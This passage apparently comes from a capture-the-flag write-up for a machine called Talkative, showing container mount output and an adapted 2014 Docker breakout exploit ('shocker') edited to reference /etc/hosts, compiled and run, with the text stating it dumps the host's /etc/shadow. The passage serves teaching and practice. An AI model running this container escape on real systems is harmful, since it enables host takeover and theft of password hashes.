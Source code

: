 

    root@c150397ccd63:~# mount
    overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/SJ7L7M7IXKP2LYEKIS4QTXWMB2:/var/lib/docker/overlay2/l/V56NO5353KGHEUPU2G64UYICZS:/var/lib/docker/overlay2/l/57PYNL7JWAUZ2ZEF5CM7JKTH2Y:/
    var/lib/docker/overlay2/l/K4DCIUMHCNYT3RFVQSR7KCCWLJ:/var/lib/docker/overlay2/l/LLNI6XKILGAYVK3VSFPKZQC4NI,upperdir=/var/lib/docker/overlay2/5de14f4c9bdeaf0f8a19d03adcc2d28ccc97655bb5bc5f888490c184d2ad70dc/diff,
    workdir=/var/lib/docker/overlay2/5de14f4c9bdeaf0f8a19d03adcc2d28ccc97655bb5bc5f888490c184d2ad70dc/work,xino=off)
    proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
    tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
    devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
    sysfs on /sys type sysfs (ro,nosuid,nodev,noexec,relatime)
    tmpfs on /sys/fs/cgroup type tmpfs (rw,nosuid,nodev,noexec,relatime,mode=755)
    cgroup on /sys/fs/cgroup/systemd type cgroup (ro,nosuid,nodev,noexec,relatime,xattr,name=systemd)
    cgroup on /sys/fs/cgroup/pids type cgroup (ro,nosuid,nodev,noexec,relatime,pids)
    ...[snip]...
    shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
    /dev/mapper/ubuntu--vg-ubuntu--lv on /app/uploads type ext4 (rw,relatime)
    /dev/mapper/ubuntu--vg-ubuntu--lv on /etc/resolv.conf type ext4 (rw,relatime)
    /dev/mapper/ubuntu--vg-ubuntu--lv on /etc/hostname type ext4 (rw,relatime)
    /dev/mapper/ubuntu--vg-ubuntu--lv on /etc/hosts type ext4 (rw,relatime)
    proc on /proc/bus type proc (ro,nosuid,nodev,noexec,relatime)
    ...[snip]...



I'll use `/etc/hosts`, updating line 166:



            // get a FS reference from something mounted in from outside
            if ((fd1 = open("/etc/hosts", O_RDONLY)) < 0)
                    die("[-] open");



Now I'll compile that with `gcc` and upload it to Talkative. If I didn't
update the file to one that exists (the default it `/.dockerinit` which
isn't in this container), it'll error out:



    root@c150397ccd63:~# ./so
    [***] docker VMM-container breakout Po(C) 2014             [***]                  
    [***] The tea from the 90's kicks your sekurity again.     [***]                    
    [***] If you have pending sec consulting, I'll happily     [***]
    [***] forward to my friends who drink secury-tea too!      [***]                      

    <enter>
                                                                                                             
    [-] open: No such file or directory 



But the updated version dumps `/etc/shadow` from the host:


